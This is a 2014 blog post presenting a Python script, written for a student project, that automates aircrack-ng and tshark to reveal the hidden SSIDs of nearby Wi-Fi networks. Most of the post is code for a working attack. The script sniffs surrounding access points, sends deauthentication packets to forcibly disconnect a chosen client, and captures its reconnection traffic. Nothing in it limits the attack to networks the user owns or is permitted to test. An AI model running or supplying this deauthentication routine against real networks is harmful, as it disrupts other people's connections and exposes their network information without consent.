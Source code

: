```yaml
---           
layout: post
title: Python script SSID sniffer, De-auth attack and Packets capturing using Aircrack-ng and tshark 
date: 2014-09-10 19:46:43 UTC
updated: 2014-09-10 19:46:43 UTC
comments: false
categories: 
---
```


I was asked by my friend, Atikah to write some Python scripts for her final year project. The project involves discovering the hidden SSID of surrounding Wifi networks. Getting the non-hidden SSID is a matter of turning on the wireless card. For hidden SSID, the trick is to capture the authorization packets sent by the connected client to that Wifi network and get the SSID from the packet. <br /><br />To do, we do "De-Auth attack" on that specific client. As a result, we disconnect it from the Wifi network. Once it's disconnected, it will try to reconnect to the Wifi network automatically by sending the "authorization" packets to that Wifi's Access Point.<br /><br />We then capture these packets and analyse it for information.<br /><br /><span style="font-family: Courier New, Courier, monospace;"><b>#!/usr/bin/env python</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">import os</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>from time import sleep</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">print "1 - Put the wireless card to monitor mode."</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "2 - Sniff for surrounding wireless network and list all BSSIDs"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "3 - Perform deAuth attack to a client from an AP"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "4 - Capture packets into a file and examine it (if "</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print " "</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "IMPORTANT NOTE: Press CNTRL+C to stop both the sniffing process and packets capture process"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>sleep(5) #pause for 3 seconds so user can read the info</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">try:</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; os.system("airmon-ng start wlan0") #set wireless card to monitor mode</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; sleep(5) #pause for 5 seconds so user can read the info</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "wireless card is set to monitor mode. Start sniffing..."</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; os.system("airodump-ng mon0") #start probing local wireless network</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>except KeyboardInterrupt:</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "nothing";</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">print "Sniffing process stopped."</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "Lets start deAuth attack. Pick an AP and a connected client"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>bssid = raw_input("Enter the MAC address of the hidden SSID of an AP (BSSID) : ")</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>station = raw_input("Enter the MAC address of connected client (STATION) : ")</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">try:</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "Start deAuth attack..."</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; os.system("aireplay-ng --deauth 10 -a %s -c %s mon0 --ignore-negative-one" % (bssid, station)) #send deAuth packets to the AP</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>except KeyboardInterrupt:</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "nothing";</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">print " "</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "deAuth attack is stopped. At this point, the client is trying to re-authenticate with the AP"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "Lets capture the packets"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>sleep(5) #pause for 3 seconds so user can read the info</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">try:</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; os.system("airodump-ng --bssid %s -w captured_packet mon0" %(bssid))</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>except KeyboardInterrupt:</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "nothing"</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">print "The captured packets are saved to a file in the same directory - captured_packet.cap"</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>print " "</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "Displaying the first 20 captured packets..."</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>os.system("tshark -r 'wlan.bssid == %s' -r captured_packet-01.cap | grep SSID | sed 's/^.*SSID=//' | sort | uniq" % bssid)</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "end"</b></span>
